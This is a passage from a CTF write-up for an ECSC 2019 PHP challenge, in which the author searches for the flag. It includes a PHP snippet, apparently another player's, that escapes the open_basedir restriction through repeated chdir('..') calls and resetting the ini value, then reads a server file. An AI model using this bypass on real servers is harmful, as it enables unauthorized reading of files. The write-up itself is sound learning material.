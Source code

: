 I had a look at the source to try and see if the **flag** was somewhere, but was notwhere to be found... :-(

I could, however see all the other players attemps at doing so:

![ECSC 2019 - Ceci n'est pas une pipe - Another player's attempt](/img/ecsc-2019-ceci-nest-pas-une-pipe-another-players-attempt.png)

But I stopped there immediately, thinking I would not learn anything if I was able to get the flag that way.<br>
It's fun knowing you `can` do it, it does not necessarily mean you `should` do it.

## Hitting the brick wall, pt. 1

That's when I got stuck. If the flag was not in the DB, where could it be?

I tried to display the `prepend.php` file just so that I would learn something at least:

```php
<?php
    echo "DOTAN3 - START";
    ini_set('allow_url_fopen', 1);
    mkdir('tmp');
    chdir('tmp');
    ini_set('open_basedir', '..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir', '/');
    echo file_get_contents('/usr/share/php/chall/prepend.php');
    echo "DOTAN3 - END";
?>
```

```php
<?php
    ini_set('open_basedir', dirname($_SERVER['SCRIPT_FILENAME']) . ':/usr/share/php/chall:/tmp');
```

More info on [auto_prepend_file directive](https://www.php.net/manual/en/ini.core.php#ini.auto-prepend-file) on official PHP documentation.

Oh nice ok! So that is automatically adding you own upload folder in the `open_basedir` folders list. Neat!<br>
But still, no flag and I start to feel a lack of inspiration.

---

Wait, it's a CTF, maybe the flag is in some of the usual places? Let's try...

* /flag
* /flag.txt
* /root/flag
* ...
